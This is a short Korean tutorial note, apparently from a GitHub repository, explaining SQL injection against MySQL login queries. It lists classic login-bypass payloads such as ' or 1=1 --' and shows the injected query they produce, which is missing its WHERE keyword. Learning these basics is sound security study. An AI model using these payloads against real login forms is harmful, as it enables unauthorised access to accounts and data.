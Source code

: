 # GENERAL SQL injection
<br><br><br><br>
> ( ) <- 강조 ( ) 기호는 제외

<br><br><br><br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'
'
입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

-> 1=1 or 1 참이 되는 값
~~~~
<br><br>

